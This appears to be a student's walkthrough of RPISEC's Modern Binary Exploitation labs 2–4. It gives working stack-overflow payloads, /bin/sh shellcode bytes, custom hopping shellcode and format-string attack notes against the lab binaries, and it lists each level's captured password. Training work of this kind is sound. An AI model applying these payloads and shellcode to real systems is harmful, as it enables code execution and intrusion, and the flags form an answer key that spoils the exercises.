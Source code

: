 # Modern Binary Exploitation
## Lab 2

### Lab 2C

```bash
./lab2C `printf 'aaaaaaaaaaaaaaa\xef\xbe\xad\xde'`
$ cat ~lab2B/.pass
1m_all_ab0ut_d4t_b33f
```

### Lab 2B
* RA is 0x1b bytes from the buffer we copy to
* shell is at 0x80486bd
* shell takes an arg
* 0804a028 D exec_string
* but it's a pointer
* 0x80487d0

```bash
lab2B@warzone:/levels/lab02$ ./lab2B `python -c 'print "a"*0x1b + "\xbd\x86\x04\x08" + "AAAA" + "\xd0\x87\x04\x08"'`
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaΩAAAA–á
$ cat ~lab2A/.pass
i_c4ll_wh4t_i_w4nt_n00b
```

### Lab 2A
* We can't overwrite the stack directly, but we can overwrite the value of i. We need to overwrite it to let us write a few extra bytes (16 in a 12 byte buffer), and then quit with a blank line
* The loop doesn't check that i is over a certain value, so we can put anything in i to have it run until overflow, writing as many bytes as we need, until we overwrite the RA, then send a blank line to quit out
* We need to use a subshell with a `cat -` so that we reconnect the stdin back to the terminal, otherwise the elevated shell has no stdin and won't run.
* 080486fd T shell

```bash
lab2A@warzone:/levels/lab02$ (printf "1234567890XX\n2\n3\n4\n5\n6\n7\n8\n9\n10\n11\n12\n13\n14\n15\n16\n17\n18\n19\n20\n21\n22\n23\n24\n\xfd\n\x86\n\x04\n\x08\n\n"; cat -) | ./lab2A
Input 10 words:
Failed to read word
You got it
cat ~lab2end/.pass
D1d_y0u_enj0y_y0ur_cats?
```

## Lab 3

### Lab 3C
* We can overflow buth the username and the password
* username is in .data -> Static location for shellcode (0x08049c40)
* password is on stack -> can overwrite RA
* username must begin witn 'rpisec'

```bash
lab3C@warzone:/levels/lab03$ (python -c "import struct; print 'rpisec' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\n' + 'A'*0x50 + struct.pack('<L', 0x08049c40 + len('rpisec')) + '\n'"; cat) | ./lab3C
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat ~lab3B/.pass
th3r3_iz_n0_4dm1ns_0n1y_U!
```

### Lab 3B
* We can overflow a buffer on the stack
* The process forks, and the parent makes sure that the child does not call execve, if it does, it quit
* Need a shellcode that doesn't use execve: open, read, write instead.
  * http://shell-storm.org/shellcode/files/shellcode-73.php
* See lab3B.py.

```bash
lab3B@warzone:/levels/lab03$ python /tmp/lab3B.py|./lab3B
just give me some shellcode, k
wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
child is exiting...
````

### Lab 3A
* Buffer on the stack in `main`
* Can read from any index
* Can write to any address, except for if the index is a multiple of three or the MSB is 0xb7 (That means 0 also)
* Write 4 bytes at a time
* Tried to patch out the checks, but the .text section is not writeable, so we cannot get around this restriction.

* Stack buffer at 0xbffff548 (in gdb).
* We will need to write shellcode that jumps over every 9-12th byte.

```asm
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  eb 2b                   jmp    30 <bin>
00000005 <back_bin>:
5:  5b                      pop    ebx
6:  eb 04                   jmp    c <hop1>
8:  cc                      int3
9:  cc                      int3
a:  cc                      int3
b:  cc                      int3
0000000c <hop1>:
c:  83 c3 07                add    ebx,0x7
f:  31 c9                   xor    ecx,ecx
11: 90                      nop
12: eb 04                   jmp    18 <hop2>
14: cc                      int3
15: cc                      int3
16: cc                      int3
17: cc                      int3
00000018 <hop2>:
18: 31 d2                   xor    edx,edx
1a: 31 c0                   xor    eax,eax
1c: b0 0b                   mov    al,0xb
1e: eb 04                   jmp    24 <hop3>
20: cc                      int3
21: cc                      int3
22: cc                      int3
23: cc                      int3
00000024 <hop3>:
24: cd 80                   int    0x80
26: 31 c0                   xor    eax,eax
28: 40                      inc    eax
29: cd 80                   int    0x80
2b: 90                      nop
2c: cc                      int3
2d: cc                      int3
2e: cc                      int3
2f: cc                      int3
00000030 <bin>:
30: e8 d0 ff ff ff          call   5 <back_bin>
35: 90                      nop
36: 90                      nop
37: 90                      nop
38: cc                      int3
39: cc                      int3
3a: cc                      int3
3b: cc                      int3
0000003c <bin_str>: "/bin/sh\x00"
```

See _lab3A.py_.

flag:sw00g1ty_sw4p_h0w_ab0ut_d3m_h0ps

## Lab 4
### Lab 4C
* We simply need to leak the flag that is read into a buffer.
* Format string vuln in the usernmae
* Password buffer comes first, then real password, then username.
* Fifth argument gets first 2 bytes of the password, and real password is 100 bytes later, meaning we must start at 5 + 100/4th -1 = 29th argument
* Password is 30 characters long, so we must leak 8 dwords
* See _lab4C.py_

```bash
lab4C@warzone:/levels/lab04$ python /tmp/lab4C.py
bu7_1t_w4sn7_brUt3_f0rc34b1e!
```

### Lab 4B
* Single buffer with format string vuln.
* Start of buffer at 6$.
* Any char in A-Z (0x41-0x5a) will be made lower case.
* `exit(0)` is called, so no overwriting RA.
* `exit@got.plt` is at 0x080499b8.
* Stack is executable, so we can point exit@plt to shell code
* Shell code will be modified if any bytes are capital letters
  * This includes `push eax` and `push ecx`.
  * Easily replaced with `sub esp, 4; mov [esp], <reg>`.
* See _lab4B.py_.

```bash
lab4B@warzone:/levels/lab04$ (python /tmp/lab4B.py; cat -) | ./lab4B
cat ~lab4A/.pass
fg3ts_d0e5n7_m4k3_y0u_1nv1nc1bl3
```
